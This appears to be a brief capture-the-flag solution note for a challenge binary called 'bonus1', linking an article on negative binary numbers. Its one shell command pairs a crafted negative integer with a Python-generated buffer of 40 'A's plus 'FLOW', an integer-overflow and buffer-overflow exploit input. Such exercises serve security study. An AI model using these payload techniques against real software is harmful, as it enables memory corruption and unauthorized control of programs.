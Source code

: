# Bonus 1

https://www.geeksforgeeks.org/representation-of-negative-binary-numbers/


```shell
./bonus1 -2147483637 $(python -c 'print 40 * "A" + "FLOW"')
```
